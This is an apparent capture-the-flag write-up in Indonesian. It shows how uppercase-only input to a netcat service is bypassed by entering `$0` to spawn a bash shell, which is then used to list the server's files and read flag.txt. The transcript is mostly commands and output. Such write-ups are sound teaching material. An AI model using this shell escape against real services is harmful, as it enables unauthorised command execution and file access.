 ## Tukang ngegas (100 pts)

Kita disuruh untuk connect pada ip dengan port berikut
`nc 13.76.181.86 8100`

Dan didapatkan hint `lokasi flag di flag.txt`

Ketika connect menggunakan netcat, bisa dilihat bahwa service ini mengubah semua command menjadi huruf besar, setelah *googling* cara execute bash shell, ternyata variable $0 dapat mengexecute bash, sehingga kita bisa mengetikkan command seperti biasa dan  mendapatkan flagnya

```bash
$ nc 13.76.181.86 8100
[!] Connecting to server..
[*] Switching to interactive mode
$ $0
ls
bin
boot
chall.py
dev
etc
flag.txt
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
cat flag.txt
Foresty2019{5a399860ecef529b27d390a1241dc688}
```